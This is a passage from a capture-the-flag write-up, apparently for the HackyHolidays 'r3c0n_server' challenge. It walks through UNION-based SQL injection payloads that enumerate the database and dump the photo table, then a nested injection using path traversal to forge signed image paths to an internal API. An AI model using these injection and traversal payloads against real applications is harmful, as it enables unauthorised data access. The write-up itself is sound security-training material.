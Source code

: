 ```
.../r3c0n_server_4fdk59/album?hash=-1' union select 1,2,3 -- -
```

And at this point '3' got output on the screen to I decided to further enumerate the database.

- database - `recon`
- tables
    - `album`
        - id
        - hash
        - name
    - `photo`
        - id
        - album_id
        - photo

And reading the data inside the tables, gave an idea of how things are stored in the database. While enumerating the `photo` table

```
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=-1' UNION ALL SELECT 1, 2, group_concat(album_id,",",id,",",photo,";\n") from photo-- -
```

{F1133192}

The image names are stored in the database and as we have seen in the base64 decoded JSON, it's the path.

```json
{"image":"r3c0n_server_4fdk59\/uploads\/db507bdb186d33a719eb045603020cec.jpg","auth":"bbf295d686bd2af346fcd80c5398de9a"}
```

Basically what it does is, takes the name and adds the other part to it and then generate an `auth` token for it. Therefore, we have to make the application generate an auth token for the any path that we want to visit

Playing with other parameters, we came to know that the 1st parameter takes the `album_id` that takes the `photo` and appends it to the path (`r3c0n_server_4fdk59/uploads/{filename}`) and renders it on the website.

We don't have access to the `/api` endpoint directly, so we can pass the path in the SQL query that will provide us access to the `/api/` endpoint. Let's see how:

```json
.../r3c0n_server_4fdk59/album?hash="-1' UNION ALL SELECT "-1' union all select NULL,NULL,'../api/endpoint'-- -",2,3-- -
```

This rendered a broken image on the site, and visiting the image URL: [`https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcL2VuZHBvaW50IiwiYXV0aCI6IjliYzdkOWFhOTRlZTZkNTQyZGYyYzNjZWZjYWRlNjgxIn0=`](https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcL2VuZHBvaW50IiwiYXV0aCI6IjliYzdkOWFhOTRlZTZkNTQyZGYyYzNjZWZjYWRlNjgxIn0=) gave a custom error message - `Expected HTTP status 200, Received: 404`

And according to the API documentation it was an invalid endpoint.
